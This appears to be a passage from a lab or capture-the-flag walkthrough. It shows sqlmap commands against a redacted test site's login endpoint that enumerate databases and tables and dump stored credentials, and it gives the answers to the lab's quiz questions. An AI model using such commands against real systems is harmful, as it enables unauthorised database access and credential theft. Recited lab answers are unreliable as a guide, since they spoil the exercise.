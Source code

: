 <br>

![image](https://github.com/user-attachments/assets/59be5d20-00bd-4a92-b949-7d05d7aee5c7)

<br>

![image](https://github.com/user-attachments/assets/65d70d3d-47d4-483f-b07d-87216725367c)

<br>

![image](https://github.com/user-attachments/assets/ae594fee-82b2-44a8-811b-927fc2aa90c6)

<br>

<pre><code>$ root@ip-[REDACTED]:~#  sqlmap -u "http://[REDACTED]/ai/includes/user_login?email=rosana@local.com&password=test" --level=5 --dbs</code></pre>

<br>

![image](https://github.com/user-attachments/assets/76da0dab-e357-4460-b8ba-6a2906c2152a)

<br>

![image](https://github.com/user-attachments/assets/c7aa2e6b-6bea-4dcf-975d-3885af1723b9)

<br>

> 4.2 - <em>What is the name of the table available in the "ai" database?</em>
>> <strong><code>user</code></strong>
<p></p><br>

<pre><code>$ root@ip-[REDACTED]:~# sqlmap -u "http://[REDACTED]/ai/includes/user_login?email=rosana@local.com&password=test" --level=5 -D ai --tables
</code></pre>

<br>

![image](https://github.com/user-attachments/assets/21ac99cc-6c38-461b-844c-348f829e5892)

<br>

> 4.3 - <em>What is the password of the email test@chatai.com??</em>
>> <strong><code>12345678</code></strong>
<p></p><br>

<pre><code>$ root@ip-[REDACTED]:~# sqlmap -u "http://[REDACTED]/ai/includes/user_login?email=rosana@local.com&password=test" --level=5 -D ai --tables --dump</code></pre>

![image](https://github.com/user-attachments/assets/881ea143-d1a9-4118-b73f-1636da15253b)


<pre><code>$ root@ip-[REDACTED]:~# sudo nano /etc/systemd/resolved.conf
</code></pre>

<pre><code>$ # You can change settings by editing this file.
# Defaults can be restored by simply deleting this file.
#
# See resolved.conf(5) for details
[Resolve]
DNS=[REDACTED]
#FallbackDNS=
</code></pre>
<br>
<h2>Task 3 - Gobuster: Introduction</h2>
<br>
